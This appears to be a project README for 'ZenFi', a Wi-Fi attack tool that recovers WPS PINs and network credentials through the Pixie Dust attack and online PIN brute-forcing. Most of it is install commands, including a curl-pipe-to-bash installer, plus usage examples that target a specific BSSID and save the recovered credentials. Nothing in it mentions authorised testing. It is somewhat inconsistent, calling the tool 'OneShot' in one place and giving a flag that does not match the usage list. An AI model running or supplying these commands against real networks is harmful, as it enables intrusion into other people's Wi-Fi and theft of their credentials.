


# Overview
**ZenFi** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features

 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
 
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
 
# Setup

## Debian/Ubuntu
**Installing requirements**
 ```
 sudo apt install -y python3 wpasupplicant iw wget
 ```
**Installing Pixiewps**

***Ubuntu 18.04 and above or Debian 10 and above***
 ```
 sudo apt install -y pixiewps
 ```
 
**Getting ZenFi**
 ```
 cd ~
 wget https://raw.githubusercontent.com/DevTeady/ZenFi/master/zenfi.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/DevTeady/ZenFi/master/vulnwsc.txt
 ```

## Arch Linux
**Installing requirements**
 ```
 sudo pacman -S wpa_supplicant pixiewps wget python
 ```
**Getting ZenFi**
 ```
 cd ~
 wget https://raw.githubusercontent.com/DevTeady/ZenFi/master/zenfi.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/DevTeady/ZenFi/master/vulnwsc.txt
 ```
 
## Alpine Linux
It can also be used to run on Android devices using [Linux Deploy](https://play.google.com/store/apps/details?id=ru.meefik.linuxdeploy)

**Installing requirements**  
Adding the testing repository:
 ```
 sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
 ```
 ```
 sudo apk add python3 wpa_supplicant pixiewps iw
 ```
 **Getting ZenFi**
 ```
 cd ~
 wget https://raw.githubusercontent.com/DevTeady/ZenFi/master/zenfi.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/DevTeady/ZenFi/master/vulnwsc.txt
 ```
 
## [Termux](https://play.google.com/store/apps/details?id=com.termux)
Please note that root access is required.  

#### Using automated installer
 ```
 mkdir ZenFi && cd ZenFi
 curl -sSf https://raw.githubusercontent.com/DevTeady/ZenFi/master/termux_installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 ```
**Getting ZenFi**
 ```
 git clone --depth 1 https://github.com/DevTeady/ZenFi ZenFi
 ```
#### Running
 ```
 sudo python ZenFi/zenfi.py -i wlan0 --iface-down -K
 ```

# Usage
```
 zenfi.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 zenfi.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 zenfi.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 zenfi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 zenfi.py -i wlan0 --pbc
 ```
 
## Troubleshooting

#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```

#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
 
# Acknowledgements

## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.